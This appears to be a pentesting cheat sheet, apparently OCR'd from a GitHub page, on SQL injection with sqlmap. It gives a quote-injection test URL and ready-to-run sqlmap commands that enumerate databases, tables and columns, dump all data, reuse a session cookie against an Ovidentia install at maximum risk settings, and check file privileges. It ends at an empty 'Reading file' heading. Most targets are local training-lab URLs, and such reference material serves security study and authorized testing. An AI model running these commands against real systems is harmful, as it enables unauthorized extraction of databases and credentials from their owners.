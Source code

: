 ## SQLI

Sql Injection

### Sqlmap

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:

```javascript
http://192.168.1.104/Less-1/?id=5'
```

#### List databases

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --dbs
```

#### List tables

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name --tables
```

#### List columns

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --columns
```

#### Dump all

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --dump-all
```

#### Set Cookie

```bash
./sqlmap.py -u http://target/ovidentia/index.php\?tg\=delegat\&idx\=mem\&id\=1 --cookie "Cookie: OV1364928461=6kb5jvu7f6lg93qlo3vl9111f8" --random-agent --risk 3 --level 5 --dbms=mysql -p id --dbs
```

#### Checking Privileges

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE
```

#### Reading file
